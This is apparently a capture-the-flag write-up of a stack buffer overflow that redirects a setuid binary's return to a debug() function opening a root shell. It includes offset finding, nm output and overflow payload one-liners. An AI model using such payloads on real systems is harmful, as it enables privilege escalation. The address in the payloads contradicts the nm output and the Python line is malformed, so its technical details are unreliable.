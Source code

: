 # The plan
The goal is to overwrite the buffer, overflowing into memory enough so we can reach the saved EBP (the one pushed on the stack right before `slogan()` is called , and write there the address of `debug()`.  
Like this, when `debug()` is fully executed, the program, which was supposed to return to `main()` and then terminate,  will instead call `debug()`, and open a root shell.

# Finding the offset
First we need to find how many characters we need to inject in order to reach EIP. After few trials i found out the number is 22. You can't see it here but i was running the payload (containing As and four Bs) from inside GDB and when i had all four Bs inside EIP at the time of crash, i knew i had found the offset (this number can sometimes vary when sending the payload from 'outside' of the binary).   

We need to send 22 A + 4 B in order to fully fill EIP. The goal is to have `debug()` address at one point on top of the stack (so at ESP), so when EIP points to it, it'll execute `debug()`.

# Getting the `debug()` function address  

```bash
0773290cf797:~$ ls -l baby
-rwxsrwxr-x 1 baby baby 19264 Nov 16 16:56 baby
```

We can do it from 'outside' or 'inside' the binary. Let's do it from the outside:  

```bash
0773290cf797:~$ nm baby | grep debug
08048205 T debug
```  

> OK we have the number of chars we need to write, our address, so lets get into it.<br> 

# Getting a shell
I tried combinations of perl, python and bash commands to inject my payload into `baby` but non worked

```bash
0773290cf797:~$ python --version
Python 3.12.3
0773290cf797:~$ python -c 'print(b"A" * 22' + b"\x05\x92\x04\x08")' | ./baby
0773290cf797:~$ perl -e 'print "A" x 22 . "\x05\x92\x04\x08"' | ./baby
0773290cf797:~$ echo -e 'AAAAAAAAAAAAAAAAAAAAAA\x05\x92\x04\x08' | ./baby
```  
*you don't see it here but they all caused the program to crash without even printing anything from `debug()`*   


> A friend later advised me to add `0x0a` to the `echo -e` command in order to add a new line char and maybe avoid the crash (0x0a = new line char in hexa)*  
